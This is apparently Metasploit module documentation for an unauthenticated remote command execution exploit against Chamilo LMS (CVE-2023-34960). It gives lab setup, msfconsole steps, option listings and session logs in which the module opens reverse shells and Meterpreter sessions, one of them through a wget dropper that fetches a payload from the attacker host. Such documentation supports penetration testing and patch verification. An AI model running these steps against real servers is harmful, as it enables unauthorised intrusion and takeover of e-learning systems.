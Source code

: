 ## Vulnerable Application
`Chamilo` is an e-learning platform, also called Learning Management Systems (LMS).
This module exploits an unauthenticated remote command execution vulnerability that affects Chamilo versions `1.11.18`
and below. See [CVE-2023-34960](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-34960).
Due to a functionality called `Chamilo Rapid` to easily convert PowerPoint slides to courses on Chamilo,
it is possible for an unauthenticated remote attacker to execute arbitrary commands at OS level using a malicious SOAP
request at the vulnerable endpoint `/main/webservices/additional_webservices.php`.

Read this [article](https://attackerkb.com/topics/VVJpMeSpUP/cve-2023-34960) on attackerkb.com for more details.

This module has been tested on:
- [ ] Ubuntu Linux 22.04
* Chamilo 1.11.18
* PHP 7.4

**Instructions for an Chamilo installation on Ubuntu 22.04:**
Download and install Ubuntu 22.04 server on VirtualBox.
[Follow these instructions](https://linux.how2shout.com/how-to-install-ubuntu-22-04-server-on-virtualbox/).

Download and install LAMP on Ubuntu 22.04 server.
[Follow these instructions](https://linux.how2shout.com/2-ways-to-install-lamp-server-on-ubuntu-22-04-20-04/).

Download Chamilo releases [here](https://github.com/chamilo/chamilo-lms/releases).

Follow installation instructions [here](https://11.chamilo.org/documentation/installation_guide.html#1._Pre-requisites).

## Verification Steps

- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/chamilo_unauth_rce_cve_2023_34960`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set target <0=PHP, 1=Unix Command, 2=Linux Dropper>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter`
```
msf6 exploit(linux/http/chamilo_unauth_rce_cve_2023_34960) > options

Module options (exploit/linux/http/chamilo_unauth_rce_cve_2023_34960):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basi
                                         cs/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The Chamilo endpoint URL
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the
                                        local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


   When TARGET is 0:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   WEBSHELL                   no        The name of the webshell with extension. Webshell name will be randomly generat
                                        ed if left unset.


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP
```
## Options

### TARGETURI
The uripath to the `Chamilo` web application. Default set is to `/`.

### WEBSHELL
You can use this option to set the filename and extension (should be .php) of the webshell.
This is handy if you want to test the webshell upload and execution with different file names.
to bypass any security settings on the Web and PHP server.

## Scenarios
### Ubuntu 22.04 PHP - php/meterpreter/reverse_tcp
```
msf6 exploit(linux/http/chamilo_unauth_rce_cve_2023_34960) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.47:80 can be exploited.
[+] The target is vulnerable.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 192.168.201.47
[+] Deleted cfLzNvTgdlp.php
[*] Meterpreter session 23 opened (192.168.201.10:4444 -> 192.168.201.47:42220) at 2023-07-28 20:29:19 +0000

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : cuckoo
OS          : Linux cuckoo 5.15.0-76-generic #83-Ubuntu SMP Thu Jun 15 19:16:32 UTC 2023 x86_64
Meterpreter : php/linux
meterpreter >
```
### Ubuntu 22.04 Unix Command - cmd/unix/reverse_bash
```
msf6 exploit(linux/http/chamilo_unauth_rce_cve_2023_34960) > set target 1
target => 1
msf6 exploit(linux/http/chamilo_unauth_rce_cve_2023_34960) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.47:80 can be exploited.
[+] The target is vulnerable.
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Command shell session 24 opened (192.168.201.10:4444 -> 192.168.201.47:32810) at 2023-07-28 20:30:48 +0000

uname -a
Linux cuckoo 5.15.0-76-generic #83-Ubuntu SMP Thu Jun 15 19:16:32 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
### Ubuntu 22.04 Linux Dropper - linux/x64/meterpreter/reverse_tcp
```
msf6 exploit(linux/http/chamilo_unauth_rce_cve_2023_34960) > set target 2
target => 2
msf6 exploit(linux/http/chamilo_unauth_rce_cve_2023_34960) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.47:80 can be exploited.
[+] The target is vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.10:1981/hexZf4ppmqBlG
[*] Client 192.168.201.47 (Wget/1.21.2) requested /hexZf4ppmqBlG
[*] Sending payload to 192.168.201.47 (Wget/1.21.2)
[*] Sending stage (3045348 bytes) to 192.168.201.47
[*] Meterpreter session 25 opened (192.168.201.10:4444 -> 192.168.201.47:55508) at 2023-07-28 20:32:02 +0000
[*] Command Stager progress - 100.00% done (120/120 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer     : 192.168.201.47
OS           : Ubuntu 22.04 (Linux 5.15.0-76-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/var/www/html/chamilo/main/inc/lib/ppt2png
meterpreter >
```

## Limitations
No limitations.
